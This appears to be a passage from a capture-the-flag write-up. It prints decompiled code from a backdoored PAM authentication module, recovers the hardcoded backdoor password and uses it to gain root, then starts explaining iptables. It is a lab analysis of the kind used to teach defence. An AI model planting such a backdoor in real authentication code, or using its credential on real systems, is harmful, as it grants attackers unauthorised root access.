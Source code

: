 ### Function pam_sm_authenticate
I found interesting stuff in this function.
```c
        if (iVar2 == 0) {
          backdoor._0_8_ = 0x4533557e656b6c7a;
          backdoor._8_7_ = 0x2d326d3238766e;
          local_40 = 0;
          iVar2 = strcmp((char *)p,backdoor);
          if (iVar2 != 0) {
            iVar2 = _unix_verify_password(pamh,name,(char *)p,ctrl);
          }
```
And if we convert the variable into the string, we get
```asm
        00103195 48 b8 7a        MOV        RAX,"zlke~U3E"
                 6c 6b 65 
                 7e 55 33 45
        001031a9 48 b8 6e        MOV        RAX,"nv82m2-\x00"
                 76 38 32 
                 6d 32 2d 00
```
And we we combine both of these values, we get something that looks like a password that ends on a null byte `\x00`.
```
zlke~U3Env82m2-
```
Let try and login as root with this password.
```console
sysadmin@compromised:~$ su -
Password: 
root@compromised:~# 
```
And we successfully log in.

# Reading root.txt
```console
root@compromised:~# cat /root/root.txt 
b9bb************************c9b1
```
   
# Beyond root     
  
Why we were not able to get a reverse shell on the box?
## Understanding Iptables
The structure of the iptable rules is in format:  **iptables -> Tables -> Chains -> Rules**.

## Types of tables
### Filter table
This is the default table for iptables. And this table has 3 built in chain.
* INPUT Chain - this deals with the incomining packets
* OUTPUT Chain - this deals with the outgoing packets
* FORWARD Chain - deals with packets routed through the local server
